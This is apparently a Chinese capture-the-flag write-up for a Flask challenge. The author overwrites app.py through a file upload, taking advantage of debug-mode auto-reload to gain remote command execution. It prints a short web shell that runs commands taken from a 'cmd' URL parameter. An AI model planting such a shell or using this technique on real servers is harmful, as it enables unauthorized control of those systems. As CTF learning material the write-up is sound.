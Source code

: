 <img src="../typora-user-images/image-20240319184545669.png" alt="image-20240319184545669" style="zoom:50%;" />

​		但是会提示锁定，控制台已锁定，需要通过输入PIN解锁。您可以在运行服务器的shell的标准输出上找到打印出来的PIN。说明这应该是一个root权限的控制台么，需要我们先获取服务器的shell来获得pin。

​		那现在来看切入点就是上传文件处了。

<img src="../typora-user-images/image-20240319185022144.png" alt="image-20240319185022144" style="zoom:50%;" />

简单传了几个东西，但是我现在好奇的是传的东西在哪了？

简单抓包也没看见有什么。

*看题解考点####是Phar反序列化，gzip压缩，无回显RCE*

这里考点写错了，因为没一点关系，应该是和上一个题解PharOne的弄混了

这里需要注意的是发现admin管理要输入pin码的话，说明flask开启了debug模式

**而flask开启了debug模式下，app.py源文件被修改后会立刻加载。**

所以只需要上传一个能rce的app.py文件把原来的进行覆盖就能够rce，(语法不能出错，否则会崩溃)

这是一种方法，[可能的另一种方法 ](https://ctf.anzu.link/pages/204626/#flask%E4%B8%AD%E7%9A%84debug%E6%A8%A1%E5%BC%8F%E5%AF%BC%E8%87%B4%E7%9A%84%E6%89%A7%E8%A1%8C%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81)     Flask PIN码生成终端RCE也是一种题型，需要关注。

这里app.py不会写，就抄官网的了

```python
from flask import Flask,request
import os
app=Flask(__name__)
@app.route('/')
def index():
    try:
        cmd = request.args.get('cmd')
        data=os.popen(cmd).read()
        return data
    except:
        pass

​    return "1"
if __name__=='__main__':
​    app.run(host='0.0.0.0',port=5000,debug=True)
```

正好看看是在哪个目录下，    /app

<img src="../typora-user-images/image-20240319193433612.png" alt="image-20240319193433612" style="zoom:67%;" />



所以考点也不是让你爆PIN，而是知道debug模式下flask的特性，然后利用上传进行rce。





[flask漏洞利用小结](https://inhann.top/2021/02/25/flask_newer/)
